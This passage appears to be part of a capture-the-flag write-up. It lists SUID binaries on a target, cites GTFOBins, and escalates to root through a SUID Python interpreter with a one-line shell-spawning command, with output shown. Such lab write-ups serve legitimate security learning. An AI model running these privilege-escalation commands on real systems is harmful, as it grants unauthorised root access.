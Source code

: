 ```
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

This is my first time working with something like this, although different permissions for python doesn't really seem logical because you can run system commands with it. Keeping that in mind, I did some research and found out about the resource GTFObins.

> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions

I went to their page on python: https://gtfobins.github.io/gtfobins/python/

The section on SUIDs features this note:

```
To exploit an existing SUID binary skip the first command and run the program using its original path.
```

Ok, cool. Here are the two commands they have listed in their python SUID section:

```
sudo sh -c 'cp $(which python) .; chmod +s ./python'

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

With the note above, we should only run the second command and we should run it from path.

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Now let's try it in our shell..

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# ls
html  python  user.txt
# whoami
root
# 
```
